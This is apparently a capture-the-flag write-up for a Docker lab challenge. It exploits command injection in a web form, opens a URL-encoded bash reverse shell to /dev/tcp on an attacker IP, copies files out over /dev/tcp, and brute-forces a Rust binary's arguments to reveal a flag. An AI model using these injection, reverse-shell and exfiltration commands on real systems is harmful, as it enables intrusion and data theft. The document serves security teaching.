 ## Getting started

```bash
$ docker compose up
```

## Evaluation

The host has a webserver open on 8080.

## Website

We can execute commands with the following POST parameters to index.

```
number=124|echo $(id)&format=hex
```

We can use this to get a reverse shell like this (replace 172.17.0.1 with your IP):
```
number=10%20%7Cbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F9001%200%3E%261%27%3Becho%20A&format=hex
```

This executes `sh -i >& /dev/tcp/172.17.0.1/9001 0>&1` on the target (url
encoded).

Before making the request, listen for a reverse shell

```
$ nc -lnvp 9001 # on host
```

## Foothold

We may use the following to stabilize our reverse shell a bit

```bash
# on target
python -c "import pty; pty.spawn('/bin/bash')" # OR
python3 -c "import pty; pty.spawn('/bin/bash')"

# background with <C-z>

stty raw -echo && fg
export TERM=xterm-256-color
```

Now, we can explore a bit. We see that we are logged in as `dave`, not `root` or
`www-data`. In `/home/dave` there are many files, including some PDF files,
a `notes.txt`, and some binaries in `/home/dave/.local/bin`.

The notes.txt file contains a hint that the user has hidden a "password" in an
program. The file also mentions that he made a little program that calculates
time. Indeed, we find such a program in `/home/dave/.local/bin/`.

```bash
dave@25675c48a0e8:~$ /home/dave/.local/bin/timars
Required option 'from' missing
Usage: /home/dave/.local/bin/timars FILE [options]

Options:
    -f, --from HH:MM    calculate time starting from this time
    -t, --to HH:MM      calculate time until this time
    -p, --pause HH:MM   remove this much time from the result
    -h, --help          print this help menu
```

The help menu of the program does not explain too much and has a wrong usage
section, but it's clear that it is made to calculate time differences.

```bash
dave@25675c48a0e8:~$ /home/dave/.local/bin/timars -f 09:00 -t 15:30 -p 0:25
from            : 09:00
to              : 15:30
pause           : 00:25
difference      : 06:05
```

The "password" must be hidden somewhere in that program.

Since this is a docker container that only exposes port 80, which already has
the web application running, we need to be a bit more creative to download the
files. We cannot simply do `python3 -m http.server 81`, since other ports are
not accessible. Since we do not have `root` access, we cannot install other
software like `ssh` or `curl`.

However, we can do something similar to how we got the reverse shell:

```bash
nc -lnvp 9002 > notes.txt # on host
cat notes.txt > /dev/tcp/172.17.0.1/9002

nc -lnvp 9002 > timars # on host
cat timars > /dev/tcp/172.17.0.1/9002
```

## Analyzing timars

Since the notes mentioned that there is a password there, we could try using
`strings` to see if there are any flag/password like strings. The file contains
a lot of strings, but none of them will be the passowrd, since that string is
obfuscated.

Instead, we might try to analyze this binary with a reverse engineering tool
like cutter. Since Rust (crab) binaries are almost always statically linked,
the tool finds a lot of functions and it is not clear which does what. The
ghidra decompiler decompiles code as C, which is not very intuitive. The binary
is stripped and compiled in release mode.

For me, the Rust binary is rather indecipherable. Instead, I opt for
bruteforcing the parameters of the executable. Since we have 6 parameters to
bruteforce, this involves O(x^6) complexity:

```python
for cth in range(23):
    for ctm in range(59):
        for cfh in range(23):
            for cfm in range(59):
                for cph in range(23):
                    for cpm in range(59):
                        exe(cth,ctm,cfh,cfm,cph,cpm)
```

Using parallel processing and a compiled language makes this possible in
a somewhat okay time. However, if we read the source code of the website, we get
a hint:

```python
if form.number.data == "1337":
    output += "\t\n1337 1z my f4v0R173 NUM83R, S0 k3wl"
```

Now, if we fix the pause parameter to 13:37 and bruteforce the other values:

```
cscherr@LP22034 ...rs/timars/challenge % cp ../target/release/bf . && ./bf
to: 01:00 from: 00:00 pause: 13:37 => len: 61
to: 02:00 from: 00:00 pause: 13:37 => len: 61
to: 00:00 from: 00:00 pause: 13:37 => len: 61
to: 08:00 from: 00:00 pause: 13:37 => len: 60
to: 14:00 from: 00:00 pause: 13:37 => len: 60
to: 15:00 from: 00:00 pause: 13:37 => len: 60
to: 11:00 from: 00:00 pause: 13:37 => len: 60
to: 05:00 from: 00:00 pause: 13:37 => len: 60
to: 03:00 from: 00:00 pause: 13:37 => len: 61
to: 17:00 from: 00:00 pause: 13:37 => len: 60
to: 13:00 from: 00:00 pause: 13:37 => len: 60
to: 20:00 from: 00:00 pause: 13:37 => len: 60
to: 06:00 from: 00:00 pause: 13:37 => len: 60
to: 04:00 from: 00:00 pause: 13:37 => len: 61
to: 12:00 from: 00:00 pause: 13:37 => len: 60
to: 18:00 from: 00:00 pause: 13:37 => len: 60

              ./timars -f 00:46 -t 02:00 -p 13:37
              from              : 00:46
to              : 02:00
pause           : 13:37
difference      : -13:37
F~L~Â~G{E1nb38V9a3V5e86HzlY27UFAErIP5mA34kES9fbu}

              ==================
              SOMETHING UNUSUAL!
              LEN: 112


```

The length of the output is significantly different, and the flag (password) is
printed. Challenge solved!

## References

- [Easy Reverse Shells](https://www.revshells.com/)
- [timars repository](https://git.cscherr.de/PlexSheep/timars/src/tag/v0.1.0), contains bruteforce code and code for timars itself
- [repository for this challenge](https://github.com/PlexSheep/dhbw-offsec-pl)
